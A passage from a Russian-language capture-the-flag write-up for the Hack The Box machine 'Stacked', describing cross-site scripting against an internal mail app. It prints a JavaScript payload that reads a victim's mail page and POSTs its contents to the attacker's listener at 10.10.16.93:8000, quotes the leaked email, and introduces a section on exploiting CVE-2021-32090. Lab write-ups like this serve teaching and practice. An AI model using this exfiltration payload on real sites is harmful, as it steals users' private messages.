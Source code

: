 ![](../../../../.gitbook/assets/9.png)

В данном ответе я ничего интересного не нашел, поэтому немного изменил скрипт на самое первое сообщение и запустил по-новой:

```javascript
var url = "http://mail.stacked.htb/read-mail.php?id=1"

var firstReq = new XMLHttpRequest();
firstReq.open('GET', url, false);
firstReq.send()

var response = firstReq.responseText;

var secondReq = new XMLHttpRequest();
secondReq.open('POST', "http://10.10.16.93:8000/", false);
secondReq.send(response);
```

И в новом сообщении есть вот такой текст:

`<p>Hey Adam, I have set up S3 instance on s3-testing.stacked.htb so that you can configure the IAM users, roles and permissions. I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances. If you need anything let me know. Thanks.</p>`

### Обнаружение нового домена и эксплуатация CVE-2021-32090:

Добавляем поддомен s3-testing.stacked.htb в /etc/hosts.

![](../../../../.gitbook/assets/10.png)
